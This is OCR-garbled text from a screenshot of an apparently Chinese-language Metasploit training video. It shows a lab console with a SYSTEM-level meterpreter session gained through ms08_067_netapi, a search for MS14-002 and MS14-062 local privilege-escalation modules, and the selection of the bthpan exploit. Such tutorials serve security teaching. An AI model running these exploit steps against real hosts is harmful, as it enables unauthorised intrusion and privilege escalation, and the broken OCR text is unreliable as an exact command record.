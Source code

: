 msf5 exploit(windows/smb/ms08_067_netapi) > search 14-002
Matching Modules
----------------
#
Name
Disclosure Date Rank
Check
Description
0 exploit/windows/local/bthpan
2014-07-18
average
Yes
MS14-062 Microsoft Bluetooth Personal Area Network
ing (BthPan.sys) Privilege Escalation
1 exploit/windows/local/ms_ndproxy lege Escalation
2013-11-27
average
Yes
MS14-002 Microsoft Windows ndproxy.sys Local Privi
msf5 exploit(windows/smb/ms08_067_netapi) >
I
OBS 25.0.8 (64-bi
新建标签页—个人
视频
hongkeketang
35.Metasploit:



hongkeketang-VMware Workstation
02：44下午
■G Shel No.1
文件（F） 动作（A） 编辑（E） 查看（V） 帮助（H）
msf5 exploit(windows/smb/ms08_067_netapi)>sessions Active sessions
Name
Type
Information
Connection PI
-- 1
meterpreter x86/windows
NT AUTHORITY\SYSTEM @ ADMIN-C584B43A5
192.168.152.128:5555→192.168.152.140:1033 (1 92.168.152.140)
msf5 exploit(windows/smb/ms08_067_netapi)> search 14-002 Matching Modules
# Name
Disclosure Date
Rank
Check
Description -
0 exploit/windows/local/bthpan
2014-07-18
average
Yes
MS14-062 Microsoft Bluetooth Personal Area Network ing (BthPan.sys) Privilege Escalation
1 exploit/windows/local/ms_ndproxy
2013-11-27
average
Yes
MS14-002
Microsoft Windows ndproxy.sys Local Privi lege Escalation
msf5 exploit(windows/smb/ms08_067_netapi)>use exploit/windows/local/bthpan 
